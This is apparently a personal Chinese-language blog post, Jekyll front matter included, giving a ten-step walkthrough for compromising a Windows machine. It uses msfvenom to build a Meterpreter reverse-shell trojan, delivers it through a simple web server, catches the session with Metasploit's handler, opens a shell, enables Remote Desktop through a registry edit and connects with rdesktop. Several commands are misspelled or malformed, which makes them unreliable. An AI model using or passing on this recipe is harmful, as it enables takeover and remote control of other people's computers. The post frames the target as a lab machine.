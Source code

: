 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      My First Post 				# 标题 
subtitle:   Hello World, Hello Blog #副标题
date:       2017-02-06 				# 时间
author:     BY 						# 作者
header-img: img/post-bg-2015.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 生活
---
```


## Hey
>这是我的第一篇博客。
1.是首先打开kali-linux，（这里我使用的版本是2019.1），打开终端运行msfconsole。
msfconsole
2.等待MSF启动成功，利用MSF下的一插件msfvenom，来生成木马。
msfvenom -p windows/meterpreter/preverse_tcp lhost='这里是输入你本机的ip' lport=‘这里输入你的端口，注意！不要和现在开启的端口冲突’ -f exe >/muma.exe
3.接下来开启一个简单的web服务。
python HTTPSimtleServer 8080.
4.去你的靶机浏览器访问kali的ip+端口并下载木马程序，
5.加载exp。
use exploit/multi/handler
6.设置payload。
set payload windows/meterpreter/preverse_tcp
set lhost '你的ip'
set lport '你的端口'
show options ‘这里查看参数是否都输入对了’。
run‘运行’
7.等待目标上线。
shell 控制目标终端。
8.输入以下命令打开对方3389远程桌面端口。
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
9.利用kali下的rdesktop，链接对方桌面。
rdesktop ‘目标ip’。
10.完成。
